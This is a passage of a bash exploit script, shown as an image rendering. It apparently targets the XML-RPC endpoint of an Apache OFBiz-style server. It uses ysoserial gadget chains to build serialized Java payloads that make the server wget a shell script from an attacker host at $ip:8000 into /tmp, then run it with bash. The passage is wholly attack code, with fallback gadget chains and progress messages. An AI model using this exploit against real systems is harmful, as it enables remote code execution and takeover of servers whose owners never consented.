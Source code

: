 ```bash
        --add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
        --add-exports=java.base/sun.net.www.protocol.http=ALL-UNNAMED \
        -jar ysoserial-all.jar CommonsBeanutils1 "wget http://$ip:8000/shell.sh -O /tmp/shell.sh 2>/dev/null" 2>/dev/null | base64 -w 0)
    
    if [ -z "$payload" ]; then
        echo -e "[!] Failed to generate first payload with CommonsBeanutils1. Trying CommonsCollections2..."
        payload=$(/usr/lib/jvm/java-11-openjdk-amd64/bin/java -jar ysoserial-all.jar CommonsCollections2 "wget http://$ip:8000/shell.sh -O /tmp/shell.sh 2>/dev/null" 2>/dev/null | base64 -w 0)
    fi
    
    if [ -z "$payload" ]; then
        echo -e "[!] Failed to generate payload. Trying without module exports..."
        payload=$(java -jar ysoserial-all.jar CommonsBeanutils1 "wget http://$ip:8000/shell.sh -O /tmp/shell.sh 2>/dev/null" 2>/dev/null | base64 -w 0)
    fi
    
    if [ -z "$payload" ]; then
        echo -e "[!] All payload generation attempts failed!"
        echo -e "[*] Please check if ysoserial is working properly"
        exit 1
    fi
    
    echo -e "[+] Payload 1 generated successfully (length: ${#payload} chars)"
    
    echo -e "[*] Sending first payload to server... (Download)"
    response1=$(curl -s -k "$url:$port/webtools/control/xmlrpc" -X POST \
        -d "<?xml version='1.0'?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns='http://ws.apache.org/xmlrpc/namespaces/extensions'>$payload</serializable></value></member></struct></value></param></params></methodCall>" \
        -H 'Content-Type:application/xml' -w "%{http_code}")
    
    echo -e "[*] First request sent. Response code: ${response1: -3}"
    
    echo -e "[*] Waiting 3 seconds for download to complete..."
    sleep 3
    
    echo -e "[*] Generating second payload (execute shell)..."
    payload2=$(/usr/lib/jvm/java-11-openjdk-amd64/bin/java \
        --add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
        --add-exports=java.base/sun.net.www.protocol.http=ALL-UNNAMED \
        -jar ysoserial-all.jar CommonsBeanutils1 "bash /tmp/shell.sh" 2>/dev/null | base64 -w 0)
    
    if [ -z "$payload2" ]; then
        echo -e "[!] Failed to generate second payload with CommonsBeanutils1. Trying CommonsCollections2..."
        payload2=$(/usr/lib/jvm/java-11-openjdk-amd64/bin/java -jar ysoserial-all.jar CommonsCollections2 "bash /tmp/shell.sh" 2>/dev/null | base64 -w 0)
    fi
    
    if [ -z "$payload2" ]; then
        echo -e "[!] Failed to generate second payload. Trying without module exports..."
        payload2=$(java -jar ysoserial-all.jar CommonsBeanutils1 "bash /tmp/shell.sh" 2>/dev/null | base64 -w 0)
    fi
    
    if [ -z "$payload2" ]; then
        echo -e "[!] All payload generation attempts failed for second payload!"
        exit 1
    fi
    
```